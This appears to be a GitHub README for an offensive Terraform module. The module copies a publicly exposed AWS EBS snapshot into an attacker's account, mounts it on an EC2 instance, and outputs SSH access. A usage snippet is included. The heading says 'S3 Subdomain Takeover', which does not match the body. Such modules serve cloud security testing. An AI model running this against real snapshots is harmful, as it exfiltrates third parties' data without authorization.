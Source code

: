# AWS S3 Subdomain Takeover

![OffensiveTerraform](https://img.shields.io/badge/hack-success)
![OffensiveTerraform](https://img.shields.io/badge/offensive-terraform-blueviolet)
![OffensiveTerraform](https://img.shields.io/badge/aws-important)

Offensive Terraform module which copies publicly exposed EBS snapshot to us-east-1 region in attacker's AWS account and creates EBS volume from a copied EBS snapshot. After that, the module attaches and mounts an EBS volume to an EC2 instance.

![Attack Diagram](https://raw.githubusercontent.com/offensive-terraform/terraform-aws-publicly-exposed-ebs-snapshot-inspector/master/diagram.jpg)

## Usage
```
module "publicly-exposed-ebs-snapshot-inspector" {
    source  = "offensive-terraform/publicly-exposed-ebs-snapshot-inspector/aws"

    public_snapshot_id = "snap-000000000000"
}

output "ssh_private_key" {
  value = module.publicly-exposed-ebs-snapshot-inspector.ssh_private_key
}

output "ssh_ec2_connect" {
  value = module.publicly-exposed-ebs-snapshot-inspector.ssh_ec2_connect
}
```

## Author
Module managed by https://github.com/iganbold
